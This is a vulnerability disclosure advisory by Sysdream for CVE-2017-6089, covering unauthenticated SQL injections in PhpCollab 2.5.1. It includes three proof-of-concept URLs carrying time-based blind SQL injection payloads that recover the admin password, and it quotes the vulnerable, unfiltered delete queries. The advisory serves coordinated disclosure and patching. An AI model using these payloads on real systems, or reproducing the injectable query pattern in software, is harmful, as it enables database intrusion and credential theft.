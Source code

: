 # [CVE-2017-6089] PhpCollab 2.5.1 Multiple SQL Injections (unauthenticated)

## Description

PhpCollab is an open source web-based project management system, that enables collaboration across the Internet.

## SQL injections

The phpCollab code does not correctly filter arguments, allowing arbitrary SQL code execution by an unauthenticated user.

**CVE ID**: CVE-2017-6089

**Access Vector**: remote

**Security Risk**: Critical

**Vulnerability**: CWE-89

**CVSS Base Score**: 10 (Critical)

**CVSS Vector String**: CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:N/A:H

## Proof of Concept 1

The following HTTP request allows an attacker to extract data using SQL injections in either the `project` or `id` parameter  (it requires at least one topic):

```
http://phpCollab.lan/topics/deletetopics.php?project=1'+and+(SELECT+SLEEP(5)+FROM+members+where+login+like+0x61646d696e+and+substr(password,1,1)+like+CHAR(116))+and+'2'='2

http://phpCollab.lan/topics/deletetopics.php?project=1&id=1+and+(SELECT+SLEEP(5)+FROM+members+where+login+like+0x61646d696e+and+substr(password,1,1)+like+CHAR(116))
```

### Vulnerable code

The vulnerable code is found in `topics/deletetopics.php`, line 9.

```
if ($action == "delete") {
    $id = str_replace("**",",",$id);
    $tmpquery1 = "DELETE FROM ".$tableCollab["topics"]." WHERE id = $id";
    $tmpquery2 = "DELETE FROM ".$tableCollab["posts"]." WHERE topic = $id";
    $pieces = explode(",",$id);
    $num = count($pieces);
    connectSql("$tmpquery1");
    connectSql("$tmpquery2");
```


## Proof of Concept 2

The following HTTP request allows an attacker to extract data using SQL injections in the `id` parameter (it requires at least one saved bookmark):

```
http://phpCollab.lan/bookmarks/deletebookmarks.php?action=delete&id=select+sleep(5)+from+members+where+login+like+0x61646d696e+and+substr(password,1,1)+like+CHAR(116)
```

### Vulnerable code

The vulnerable code is found in `bookmarks/deletebookmarks.php`, line 32.

```
if ($action == "delete") {
	$id = str_replace("**",",",$id);
	$tmpquery1 = "DELETE FROM ".$tableCollab["bookmarks"]." WHERE id IN($id)";
	connectSql("$tmpquery1");
```


## Proof of Concept 3

The following HTTP request allows an attacker to extract some information using SQL injection in the `id` parameter (it requires at least one calendar entry):

```
http://phpCollab.lan/calendar/deletecalendar.php?project=&action=delete&id=select+sleep(5)+from+members+where+login+like+0x61646d696e+and+substr(password,1,1)+like+CHAR(116)
```

### Vulnerable code

The vulnerable code is found in `calendar/deletecalendar.php`, line 31.

```
if ($action == "delete") {
	$id = str_replace("**",",",$id);
	$tmpquery1 = "DELETE FROM ".$tableCollab["calendar"]." WHERE id IN($id)";
	connectSql("$tmpquery1");
```

**Notes**
The application probably needs a security posture against injections, so other parameters and pages may be vulnerables. This advisory does not intend to be an exhaustive list of vulnerable parameters.


## Solution

Update to the latest version avalaible.

## Affected versions

* Version <= 2.5.1

## Timeline (dd/mm/yyyy)

* 27/08/2016 : Initial discovery.
* 05/10/2016 : Initial contact.
* 11/10/2016 : GPG Key exchange.
* 19/10/2016 : Advisory sent to vendor.
* 13/02/2017 : First fixes.
* 15/02/2017 : Fixes validation by Sysdream.
* 21/02/2017 : PhpCollab ask to wait before publish.
* 21/06/2017 : New version has been released.
* 29/09/2017 : Public disclosure.

## Credits

* Nicolas SERRA, Sysdream  (n.serra -at- sysdream -dot- com)

--
SYSDREAM Labs <labs@sysdream.com>
GPG : 47D1 E124 C43E F992 2A2E 1551 8EB4 8CD9 D5B2 59A1
* Website: https://sysdream.com/
* Twitter: @sysdream